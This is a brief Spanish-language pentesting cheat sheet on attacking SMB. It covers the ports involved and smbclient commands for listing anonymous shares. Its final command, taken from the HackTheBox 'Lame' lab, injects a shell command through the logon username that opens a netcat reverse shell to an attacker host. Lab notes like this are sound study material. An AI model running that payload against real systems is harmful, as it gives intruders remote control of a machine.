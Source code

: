  y a veces el # SMB

Hay muchas formas de atacar al protocolo SMB.

## Puertos

Normalmente en windows el mas significativo es el 445 aunque siempre acompañado del 139 y a veces del 135.

## Listado de recursos compartidos de forma anónima

### Con ***smbclient***
<pre>
# De forma genérica
smbclient -L 10.10.10.3 -N

# Indicando el protocolo
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"

# Indicando la ejecuión de un comando. Para ello ha de tener permisos.
# En este caso establece una SHELL reversa. Máquina Lame de HTB
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
  
</pre>
